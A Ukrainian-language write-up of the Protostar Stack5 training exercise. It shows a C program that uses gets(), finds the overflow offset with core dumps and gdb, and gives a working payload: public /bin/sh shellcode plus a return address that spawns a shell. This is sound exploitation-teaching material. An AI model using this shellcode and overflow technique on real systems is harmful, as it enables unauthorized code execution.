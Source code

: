 # STACK5

На цьому рівні розглядається стандартне переповнення буфера, на цей раз введення шелл-коду.

Вихідний код для Stack5:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі. Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код. Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:

shellcode (https://www.vividmachines.com/shellcode/shellcode.html):

```
\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42
```

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання:

```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
```

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Завантажимо згенерований дамп ядра і знайдемо буфер:

```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```
![image](https://user-images.githubusercontent.com/47494881/147508435-d77df8e5-44ef-40bd-ab9c-07b98428d8a3.png)

Як видно на рисунку, програма вже намагалася виконати адресу 0x41414141 ('AAAA'), тому зміщення правильні. Буфер користувача починається з 0xbffffc60. 

Отже, маємо:
```
(python -c  "shell = '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42'; print(shell + '\xcc' * (76-len(shell)) + '\x50\xfc\xff\xbf')"; cat) | ./stack5
```

![image](https://user-images.githubusercontent.com/47494881/147508470-9ceebaef-5e56-4bed-9b3c-df126ddc8729.png)
